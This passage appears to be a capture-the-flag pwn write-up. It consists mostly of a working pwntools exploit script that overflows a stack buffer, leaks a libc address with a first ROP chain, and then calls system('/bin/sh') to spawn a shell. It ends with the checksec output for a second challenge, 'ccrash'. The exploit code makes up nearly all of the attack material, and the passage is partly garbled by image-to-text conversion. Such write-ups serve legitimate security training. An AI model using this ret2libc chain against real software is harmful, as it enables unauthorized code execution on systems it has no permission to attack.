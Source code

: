 ```py

if args.GDB: GDB(); input("Please press ENTER to send your payload")

# ==================== EXPLOIT ====================

input()
def exploit():

  ret = 0x000000000040101a

  pl = flat(

    b'\0' + b'A'*71,
    ret,
    exe.plt.printf,
    exe.plt.puts,
    exe.sym.main,
    )

  sla(b'Data: ', pl)
  ru(b'Thank for playing :)\n')
  leak = u64(rl()[:-1].ljust(0x8, b'\0'))
  libc.address = leak - 0x62050
  print(hex(leak))
  print(hex(libc.address))

  rop = ROP(libc)
  pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]

  pl = flat(
    b'\0' + b'A'*71,
    ret,
    pop_rdi,
    next(libc.search(b'/bin/sh')),
    libc.sym.system
    )

  sla(b'Data: ', pl)

  interactive()

if __name__ == '__main__':
  exploit()
```

# ccrash

```
[*] '/home/alter/CTFs/2025/KSCS_Recruit/PWN/ccrash/ccrash/main'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    Debuginfo:  Yes
```
